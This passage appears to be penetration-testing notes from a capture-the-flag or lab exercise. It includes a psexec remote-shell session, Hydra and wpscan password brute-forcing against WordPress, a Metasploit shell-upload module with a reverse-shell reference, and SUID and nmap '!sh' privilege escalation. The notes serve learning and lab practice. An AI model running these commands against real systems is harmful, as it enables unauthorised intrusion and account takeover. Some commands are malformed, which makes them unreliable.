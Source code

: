   ```
	 ----                                                  	-----------
	 ADMIN$                                            	READ, WRITE
	 Backups                                           	READ, WRITE
	 C$                                                	READ, WRITE
	 IPC$                                              	READ ONLY
  root@kali:/opt/impacket/examples# python psexec.py administrator@<HOST_IP>
  Impacket v0.9.21-dev - Copyright 2019 SecureAuth Corporation

  Password:
  [*] Requesting shares on <HOST_IP>.....
  [*] Found writable share ADMIN$
  [*] Uploading file tJJmcVQN.exe
  [*] Opening SVCManager on <HOST_IP>.....
  [*] Creating service RKAe on <HOST_IP>....
  [*] Starting service RKAe.....
  [!] Press help for extra shell commands
  Microsoft Windows [Version 10.0.14393]
  (c) 2016 Microsoft Corporation. All rights reserved.

  C:\Windows\system32>
  ```
  
* To view files on VHD drie, use `7z l <FILENAME>.vhd`
  ```
  root@kali:/mnt/smb# 7z l <VHD_NAME>.vhd
  7-Zip [64] 16.02 : Copyright (c) 1999-2016 Igor Pavlov : 2016-05-21
  p7zip Version 16.02 (locale=en_US.UTF-8,Utf16=on,HugeFiles=on,64 bits,2 CPUs Intel(R) Core(TM) i5-5200U CPU @ 2.20GHz (306D4),ASM,AES-NI)
  Scanning the drive for archives:
  1 file, 5418299392 bytes (5168 MiB)
  Listing archive: <VHD_NAME>.vhd
  ```
* To mount VHD drive on Linux use, very useful for forensics
  ```
  root@kali:/mnt/smb# guestmount --add <VHD_NAME>.vhd --inspector -ro -v /mnt/vhd
  ```
* To Find server version of Webserver
  * `curl --header <SERVER_IP>`
* If we want to find exploit of a particular version, Use searchsploit
  * `searchsploit apache 1.2.4`
* If /wp-login.php is found in the Vulnerability scanning, it can be Wordpress site.
* Use Hydra to bruteforce username after capturing the login request using Burpsuite.
  * `hydra -V -l wordlist.dic -p 123 <HOST_IP> http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid Username`
* To scan Wordpress Website for known vulnerabilities. 
  * `gem install wpscan`
  * `wpscan --url <HOST_IP> --usernames <USERNAME_FOUND> --passwords wordlist.dic`
* We can use metasploit to exploit the server
  * use exploit/unix/webapp/wp_admin_shell_upload 
  * pentestmonkey.net/tools/web-shells/php-reverse-shell
* Command to get Bash shell
  * `python -c "import pty;pty.spawn('/bin/bash')"`
* Privilige Escalation: Now if we found the hash for the priviliged user, we can use crackstation.net/ to get the password.
* To find all the files which current user can interact use the command
  * `find / -perm -4000 2>/dev/null`
* If there is any program which we can get to use as root, we need to target that.
  ```
  robot@linux:/$ nmap --interactive
  nmap --interactive
  Starting nmap V. 3.81 ( www.insecure.org/nmap/ )
  Welcome to Interactive Mode -- press h <enter> for help
  nmap> !sh
  !sh
  ```